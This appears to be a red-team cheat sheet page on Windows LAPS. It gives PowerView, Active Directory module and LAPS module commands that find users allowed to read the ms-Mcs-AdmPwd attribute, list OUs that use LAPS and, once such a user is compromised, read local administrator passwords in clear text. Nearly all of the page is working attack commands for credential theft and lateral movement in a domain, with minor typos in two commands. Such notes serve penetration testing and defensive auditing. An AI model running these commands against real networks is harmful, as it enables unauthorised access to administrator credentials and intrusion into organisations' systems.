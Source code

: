 # LAPS

#### Find users who can read the passwords in clear text machines in OUs

```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

#### Enumerate OUs where LAPS is in use along with users who can read the passwords in clear text

```
# Using Active Directory module
.\Get-LapsPermissions.ps1

# Using LAPS module (can be copied across machines)
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

#### Compromise the user which has the Rights, use the following to read clear-text password

{% tabs %}
{% tab title="Powerview" %}
```
Get-DomainObject -Identity <identity> | select - ExpandProperty ms-mcs-admpwd
```
{% endtab %}

{% tab title="AD Module" %}
```
Get-ADComputer -Identity <identity> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```
{% endtab %}

{% tab title="LAPS module" %}
```
Get-AdmPwdPassword -ComputerName <computrt-name>
```
{% endtab %}
{% endtabs %}
